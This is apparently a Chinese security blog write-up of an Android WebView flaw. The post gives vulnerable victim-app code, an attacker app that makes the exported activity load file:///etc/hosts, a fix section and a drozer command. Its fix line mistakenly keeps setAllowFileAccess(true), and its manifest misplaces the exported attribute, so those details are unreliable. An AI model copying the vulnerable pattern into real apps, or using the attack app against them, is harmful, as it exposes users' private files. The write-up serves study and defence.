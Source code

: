 title: android webview file域控制不严格利用
abbrlink: 3957115657
date: 2019-04-29 13:37:55
tags:
  - android安全
categories:
  - - 安全
    - 移动安全
    - android安全
    - android漏洞
description: android webview file域控制不严格利用
---
## webview file域控制不严格读取内部私有文件
必须条件：  
1.存在webview的activity组件可导出  
2.当前的webview允许使用file协议  

可利用app关键代码:  

```
android:exported="true"//api17及以上版本默认为false
webView.getSettings().setAllowFileAccess(true);//默认是true
```

MainActivity.java  

```
public class MainActivity extends AppCompatActivity {

    private WebView webView = null;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
//        setContentView(R.layout.activity_main);
        webView = new WebView(this);
        setContentView(webView);
        webView.setWebViewClient(new WebViewClient());
        webView.getSettings().setAllowFileAccess(true);
        Intent mIntent = this.getIntent();
        Bundle bundle = mIntent.getBundleExtra("bundle");
        String url = bundle.getString("url");
        webView.loadUrl(url);
    }
}
```
AndroidManifest.xml  

```
<activity android:name=".MainActivity" >
            <intent-filter>
                <action android:name="android.intent.action.MAIN" android:exported="true" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
```

攻击app关键代码:  

MainActivity.java

```

public class MainActivity extends AppCompatActivity {

    public static final String LOAD_URL="file:///etc/hosts";
//    public static final String BAIDU="https://www.baidu.com";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        ComponentName componentName = new ComponentName("com.demo.victim","com.demo.victim.MainActivity");
        Intent intent = new Intent();
        Bundle bundle = new Bundle();
        intent.setComponent(componentName);
        bundle.putString("url",LOAD_URL);
        intent.putExtra("bundle",bundle);
        startActivity(intent);

    }
}
```

利用:    
先安装可利用app在安装攻击app，在打开攻击app  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/30/01.jpg)

修复:  
设置android:exported="false" 设置为不可导出  
webView.getSettings().setAllowFileAccess(true);明确禁用file协议

工具:  
使用drozer查看activity导出  
```
run app.activity.info -a com.xx.xx
```
代码:  
[webview](https://github.com/tea9/android_repetition/tree/master/webview)  

## LINNKS
[Android WebView File域同源策略绕过漏洞浅析](https://blog.csdn.net/jltxgcy/article/details/50678304)  
[WebView域控不严格读取内部私有文件实验](https://www.freebuf.com/articles/terminal/160061.html)  
